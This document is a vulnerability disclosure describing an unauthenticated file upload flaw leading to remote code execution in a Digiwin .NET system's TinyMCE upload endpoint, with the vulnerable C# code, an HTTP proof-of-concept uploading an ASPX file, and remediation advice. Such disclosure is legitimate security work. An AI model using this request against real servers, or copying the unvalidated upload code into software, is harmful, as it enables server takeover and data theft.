

# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

## Vendor Homepage

https://www.digiwin.com/

### Summary:
An unauthenticated file upload vulnerability has been identified in the .NET system. This vulnerability allows an attacker to upload arbitrary files, including potentially malicious ASPX files, which can lead to remote code execution and full server compromise.

### Affected Endpoint:
`/Api/TinyMce/UploadAjaxAPI.ashx`

### Vulnerability Type:
Unauthenticated File Upload

### Vulnerable Code:
```csharp
else
{
    //上传其他文件 .pdf, .txt, .zip, .rar, .7z, .doc, .docx, .xls, .xlsx, .ppt, .pptx
    string path = "/fileRoot/tinymce/otherfile/" + Guid.NewGuid().ToString() + file.FileName;
    file.SaveAs(context.Request.MapPath(path));
    var obj = new
    {
        location = path,
        type = "file",
        name = file.FileName
    };
    string json = JsonConvert.SerializeObject(obj);
    context.Response.Write(json);
}
```

### Proof of Concept (PoC):
```http
POST /Api/TinyMce/UploadAjaxAPI.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/jpeg

Test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact:
The vulnerability allows an attacker to upload any file, including executable files such as ASPX scripts. Once uploaded, the attacker can execute arbitrary code on the server, potentially gaining full control over the server, accessing sensitive data, modifying or deleting files, and performing other malicious activities.

### Recommendation:
1. **File Type Validation**: Implement strict validation to ensure only allowed file types can be uploaded. For example, only permit `.pdf`, `.txt`, `.zip`, `.rar`, `.7z`, `.doc`, `.docx`, `.xls`, `.xlsx`, `.ppt`, and `.pptx` file extensions.
2. **Authentication**: Require authentication for file upload endpoints to prevent unauthenticated users from uploading files.
3. **Content Inspection**: Perform content inspection to ensure uploaded files match their declared MIME types and do not contain executable code.
4. **Upload Directory Permissions**: Configure the upload directory with appropriate permissions to prevent execution of uploaded files.
5. **Logging and Monitoring**: Implement logging and monitoring for file upload activities to detect and respond to suspicious activities promptly.

### Conclusion:
The identified vulnerability poses a significant security risk as it allows unauthenticated users to upload and execute arbitrary files on the server. Immediate remediation is necessary to prevent potential exploitation and ensure the security of the server and its data.

### References:
- [OWASP File Upload Security](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [Microsoft Secure Coding Guidelines](https://learn.microsoft.com/en-us/security/engineering/secure-coding)